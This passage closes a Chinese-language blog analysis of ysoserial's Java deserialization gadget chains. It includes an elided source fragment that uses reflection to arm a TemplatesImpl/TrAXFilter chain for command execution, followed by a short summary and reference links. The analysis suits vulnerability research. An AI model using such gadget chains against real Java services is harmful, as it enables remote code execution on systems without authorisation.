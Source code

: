     ```
    TemplatesImpl templates = Gadgets.createTemplatesImpl(command);
    ...............
    // grab defensively copied arrays
    paramTypes = (Class[]) Reflections.getFieldValue(instantiate, "iParamTypes");
    args = (Object[]) Reflections.getFieldValue(instantiate, "iArgs");
    ..............
    // swap in values to arm
    Reflections.setFieldValue(constant, "iConstant", TrAXFilter.class);
    paramTypes[0] = Templates.class;
    args[0] = templates;
    ...................
    
    ```

照例生成`PriorityQueue<Object> queue`后，使用反射机制对其属性进行修改。保证成功生成payload。

个人总结：payload分析完了，里面涉及的方法很巧妙。也有许多共同的利用特性，值得学习~~

0x03 参考资料
=========

* * *

*   [http://blog.knownsec.com/2016/03/java-deserialization-commonsbeanutils-pop-chains-analysis/](http://blog.knownsec.com/2016/03/java-deserialization-commonsbeanutils-pop-chains-analysis/)
*   [http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/](http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/ "http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/")
*   [https://github.com/angelwhu/ysoserial-test/](https://github.com/angelwhu/ysoserial-test/ "https://github.com/angelwhu/ysoserial-test/")